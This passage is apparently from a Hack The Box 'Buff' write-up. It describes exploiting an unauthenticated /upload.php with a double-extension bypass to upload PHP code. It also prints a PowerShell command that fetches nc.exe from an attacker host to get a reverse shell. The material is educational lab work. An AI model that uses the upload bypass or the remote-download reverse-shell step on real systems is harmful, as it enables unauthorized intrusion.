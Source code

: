 > [https://www.exploit-db.com/exploits/48506](https://www.exploit-db.com/exploits/48506)

According to the exploit there is an `/upload.php` page and it does not check for an authenticated user session. And it sets a parameter `id` with that its sends a GET request to a desired filename and it will upload a image, To bypass the extension whitelist we can add a double extension with the last one as acceptable one Eg: png,gif. And send a POST request to the parameter with malicious PHP code in the body.

I got a shell as user `shaun`, but its not stable. I can't move to any other directory.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-buff/Untitled%204.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-buff/Untitled%204.png)

So I uploaded a `nc.exe` and got reverse shell from that.

```bash
powershell.exe -command Invoke-WebRequest  -Uri 'http://10.10.14.4:8000/nc.exe' -OutFile C:\xampp\htdocs\gym\upload\nc.exe
```

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-buff/Untitled%205.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-buff/Untitled%205.png)

